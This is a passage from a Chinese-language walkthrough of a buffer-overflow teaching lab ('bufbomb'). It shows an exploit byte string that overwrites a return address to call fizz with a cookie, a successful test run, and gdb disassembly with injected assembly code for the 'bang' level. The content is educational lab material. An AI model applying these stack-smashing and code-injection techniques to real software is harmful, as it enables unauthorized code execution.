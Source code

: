 `44个00 跳转地址 4个00 我们的cookie`

`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 42 8c 04 08 00 00 00 00 43 27 9d 7f`

写入`exploit.ans1`

测试

```
cat exploit.ans1 | ./hex2raw | ./bufbomb -u cromarmot
Userid: cromarmot
Cookie: 0x7f9d2743
Type string:Fizz!: You called fizz(0x7f9d2743)
VALID
NICE JOB!
```

tips:当然 你可以直接越过cmp调到print前面地址`0x08048c53` 但做lab的目的是为了理清栈以及栈指针的变化,这种方法知道就好

至此我们学会了在跳转时传参

### bang (level 2)

```
(gdb) disass bang
Dump of assembler code for function bang:
   0x08048c9d <+0>: push   %ebp
   0x08048c9e <+1>: mov    %esp,%ebp
   0x08048ca0 <+3>: sub    $0x18,%esp
   0x08048ca3 <+6>: mov    0x804d100,%eax
   0x08048ca8 <+11>:  cmp    0x804d108,%eax
   0x08048cae <+17>:  jne    0x8048cd6 <bang+57>
```

`0x804d108`地址的值也就是cookie

那么我们要让`0x804d100`位置上的也等于cookie?

难道要overflow 到那里去？

回顾刚刚我们干的好事有

1. 改变返回地址
2. 改变函数所"接受的参数"

第一条也就是重新指定了函数入口

那我们就自己写"函数"让0x804d100 的值=我们的cookie 再进入bang(0x08048c9d)不就好了[对应下面的ans2.s代码]

注意RET指令则是将栈顶的返回地址弹出到EIP，然后按照EIP此时指示的指令地址继续执行程序。LEAVE指令是将栈指针指向帧指针，然后POP备份的原帧指针到%EBP。

所以编写`ans2.s`文件

```
movl $0x7f9d2743,0x804d100
pushl $0x08048c9d
ret
```
